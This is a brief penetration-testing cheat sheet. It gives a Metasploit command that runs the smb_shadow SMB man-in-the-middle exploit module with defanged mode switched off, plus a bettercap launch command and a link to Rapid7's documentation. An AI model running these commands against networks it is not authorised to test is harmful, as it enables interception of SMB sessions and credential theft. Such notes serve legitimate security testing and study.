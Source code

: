 # Bettercap

## SMB Shadow

```
$ sudo msfconsole -qx "use exploit/windows/smb/smb_shadow; set interface <interface>; set defangedmode false; run"
```

```
$ sudo bettercap -I <interface>
```

---
## References

- [Rapid7: Metasploit Framework - SMB Shadow Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/smb_shadow.md)